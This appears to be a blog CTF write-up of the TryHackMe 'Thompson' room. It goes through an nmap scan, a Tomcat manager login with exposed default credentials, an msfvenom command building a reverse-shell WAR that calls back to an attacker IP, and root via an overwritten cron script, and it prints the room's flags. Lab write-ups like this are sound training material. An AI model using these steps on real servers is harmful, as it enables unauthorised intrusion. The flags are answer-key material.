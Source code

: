 ```yaml
---
title: "Thompson - TryHackMe"
author: Ludovic COULON
date: 2020-06-07
hero: ./images/hero.png
excerpt: "Writeup for the Thompson room on TryHackMe"
---
```


[TryHackMe | Thompson](https://tryhackme.com/room/bsidesgtthompson)
Read user.txt and root.txt

---

### Setup

```bash
➜  TryHackMe nmap -A -vv 10.10.221.95
```

```bash
22/tcp   open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDL+0hfJnh2z0jia21xVo/zOSRmzqE/qWyQv1G+8EJNXze3WPjXsC54jYeO0lp2SGq+sauzNvmWrHcrLKHtugMUQmkS9gD/p4zx4LjuG0WKYYeyLybs4WrTTmCU8PYGgmud9SwrDlEjX9AOEZgP/gj1FY+x+TfOtIT2OEE0Exvb86LhPj/AqdahABfCfxzHQ9ZyS6v4SMt/AvpJs6Dgady20CLxhYGY9yR+V4JnNl4jxwg2j64EGLx4vtCWNjwP+7ROkTmP6dzR7DxsH1h8Ko5C45HbTIjFzUmrJ1HMPZMo9ss0MsmeXPnZTmp5TxsxbLNJGSbDv7BS9gdCyTf0+Qq1
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBG6CiO2B7Uei2whKgUHjLmGY7dq1uZFhZ3wY5EWj5L7ylSj+bx5pwaiEgU/Velkp4ZWXM//thL6K1lAAPGLxHMM=
|   256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIwYtK4oCnQLSoBYAztlgcEsq8FLNL48LyxC2RfxC+33

8009/tcp open  ajp13   syn-ack Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request

8080/tcp open  http    syn-ack Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
| http-methods:
|_  Supported Methods: GET HEAD POST
|_http-title: Apache Tomcat/8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

<div className="Image__Medium">
  <img src="https://imgur.com/gQ8AzdM.png" alt="blog_image" />
</div>

Let's try the "manager app" button

<div className="Image__Medium">
  <img src="https://imgur.com/Ty59zwz.png" alt="blog_image" />
</div>

Well, I tried the cancel button because I don't have any credentials

<div className="Image__Medium">
  <img src="https://imgur.com/0wnAZv3.png" alt="blog_image" />
</div>

For some obscure reason (maybe bad configuration) there is a password and a username let's try it ! 🤨

<div className="Image__Medium">
  <img src="https://imgur.com/x0PrhCR.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://imgur.com/7CTEfM6.png" alt="blog_image" />
</div>

Well that worked let's see if there is a way to upload some reverse shell 🤑

<div className="Image__Medium">
  <img src="https://imgur.com/n7GjOi7.png" alt="blog_image" />
</div>

I noticed a WAR file uploader let's search something on github/google

[Multiple Ways to Exploit Tomcat Manager](https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/)

```bash
➜  TryHackMe msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.9.2.228 LPORT=1234 -f war > shell.war
```

<div className="Image__Medium">
  <img src="https://imgur.com/FwO3JC4.png" alt="blog_image" />
</div>

### #1 user.txt

```bash
39400c90bc683a41a8935e4719f181bf
```

### #2 root.txt

```bash
$ id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)

$ bash id.sh
id.sh: line 2: test.txt: Permission denied

$ cat id.sh
#!/bin/bash
id > test.txt

$ cat test.txt
uid=0(root) gid=0(root) groups=0(root)
```

If we copy the content root key on the [id.sh](http://id.sh) it should be executed with root privileges let's try that ! :D

```bash
echo "cp /root/root.txt /home/jack/root.txt" > id.sh
```

```bash
# Its a cron job its gonna take some time..
$ cat id.sh
cp /root/root.txt /home/jack/root.txt

$ ls
id.sh  root.txt  test.txt  user.txt

$ cat root.txt
d89d5391984c0450a95497153ae7ca3a
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://i.imgur.com/kUD3W5P.png" alt="TryhackMeProfile" />
  </a>
</center>
